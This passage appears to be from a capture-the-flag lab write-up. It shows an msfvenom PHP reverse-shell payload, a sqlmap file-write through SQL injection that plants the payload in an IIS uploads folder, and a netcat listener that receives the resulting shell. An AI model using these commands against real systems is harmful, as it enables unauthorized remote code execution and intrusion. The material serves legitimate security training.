 So we can leverage this to upload a reverse shell. To creat it, we'll use msfvenom

```sh
$msfvenom -p php/reverse_php LHOST=10.10.14.30 LPORT=1231 --platform php -e generic/none -f raw -o pl.php
[-] No arch selected, selecting arch: php from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none succeeded with size 3002 (iteration=0)
generic/none chosen with final size 3002
Payload size: 3002 bytes
Saved as: pl.php
```

and now we try to upload it. The question is where. From the `nmap` output, we saw that the server was running `Microsoft IIS httpd 10.0`. A ~quick~ painfull google search tells us that the default folder for this server service is `C:\inetpub\wwwroot`. Moreover, from our `ffuf` scan, we saw an `uploads` folder, so let's try `/inetpub/wwwroot/uploads/`


```sh
$sqlmap -u http://10.10.10.167/search_products.php --data productName=1 --proxy http://127.0.0.1:8080 --file-write=pl.php --file-dest=/inetpub/wwwroot/uploads/pl.php
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.3#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[...]
[17:12:53] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[17:12:53] [INFO] fingerprinting the back-end DBMS operating system
[17:12:53] [INFO] the back-end DBMS operating system is Windows
[17:12:54] [WARNING] potential permission problems detected ('Access denied')
[17:12:57] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
do you want confirmation that the local file 'pl.php' has been successfully written on the back-end DBMS file system ('/inetpub/wwwroot/uploads/pl.php')? [Y/n]
[17:13:03] [INFO] the local file 'pl.php' and the remote file '/inetpub/wwwroot/uploads/pl.php' have the same size (3002 B)
[17:13:03] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.167'

[*] ending @ 17:13:03 /2020-04-19/

```

And apparently that works. We can therefore prepare a netcat listner, and navigate to the page [http://10.10.10.167/uploads/pl.php](http://10.10.10.167/uploads/pl.php).

```sh
$nc -lnvp 1231
listening on [any] 1231 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.167] 62983
whoami
nt authority\iusr
```
